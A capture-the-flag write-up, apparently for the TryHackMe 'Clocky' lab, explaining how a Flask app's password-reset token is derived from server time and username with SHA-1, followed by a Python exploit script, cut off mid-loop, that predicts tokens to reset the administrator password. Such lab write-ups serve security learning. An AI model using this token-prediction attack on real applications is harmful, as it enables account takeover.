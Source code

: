 ![Flask app on port 8080](/images/THM-Clocky/flask-app-8080.png)

Navigating to `http://10.10.62.39:8080/` we get to a static website.

![Clocky website on port 8080](/images/THM-Clocky/clocky-website.png)

In the source code we find multiple endpoints such as:

* `/administrator` which has a login form.

![Clocky administrator endpoint](/images/THM-Clocky/administrator.png)

* `/forgot_password` which allows to reset a password after the user provides a valid username.

![Clocky forgot_password endpoint](/images/THM-Clocky/password-reset.png)

* `/password_reset`, this endpoint leads to a page with the message `Invalid Parameter`. In the code we see that we need to provide a token value.

![Clocky forgot_password endpoint](/images/THM-Clocky/pwd_reset.png)

![Clocky token value expected](/images/THM-Clocky/token-expected.png)

Moreover the generation of the token is time sensitive. Here is how it works:

* once the application confirms that the user name provided exists in the database it gets the server's current date and time and stores it in `value`.
* `value` is then converted into a string and the last 4 characters are removed. A space, a dot and the upper case version of the user name are then appended to the string.
* the `lnk` string is finally hashed using SHA-1 (which is insecure).

![Clocky token value expected](/images/THM-Clocky/token-gen-code.png)

So to exploit it we have to:

* provide a valid username 
* sync our date and time with the server's
* generate a valid token value 
* reset the password of the adminstrator account 


We use the script below to achieve it.

```python
import datetime
import hashlib
import requests
import re

# Set the target URL, change the IP acordingly
base_url = 'http://10.10.62.39:8080/' 

# Send a POST request to synchronize time
data = {"username": "administrator"}
requests.post(base_url + "forgot_password", data=data)

# Send a GET request to fetch the current time
response = requests.get(base_url)
if response.status_code == 200:
    time_pattern = r'The current time is (\d{4}-\d{2}-\d{2} \d{2}:\d{2}:\d{2})'
    match = re.search(time_pattern, response.text)
    if match:
        current_time_str = match.group(1)
        print("Synchronized time:", current_time_str)  

        # Generate and check valid tokens
        valid_tokens = []
        for ms in range(100):
```
